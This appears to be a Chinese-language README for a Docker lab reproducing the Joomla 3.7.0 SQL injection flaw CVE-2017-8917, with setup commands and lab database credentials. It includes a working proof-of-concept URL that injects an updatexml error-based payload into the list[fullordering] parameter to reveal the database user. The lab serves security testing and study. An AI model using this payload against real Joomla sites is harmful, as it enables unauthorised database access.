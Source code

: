 # Joomla 3.7.0 (CVE-2017-8917) SQL注入漏洞环境

## 测试环境

编译及启动测试环境：

```
docker-compose build
docker-compose up -d
```

启动后访问`http://your-ip`即可看到Joomla的安装界面，当前环境的数据库信息为：

 - 数据库地址：mysql:3306
 - 用户：root
 - 密码：root
 - 数据库名：joomla

填入上述信息，正常安装即可。

## POC测试

安装完成后，访问`http://your-ip/index.php?option=com_fields&view=fields&layout=modal&list[fullordering]=updatexml(0x3a,concat(1,user()),1)`，即可看到报错信息：

![](1.png)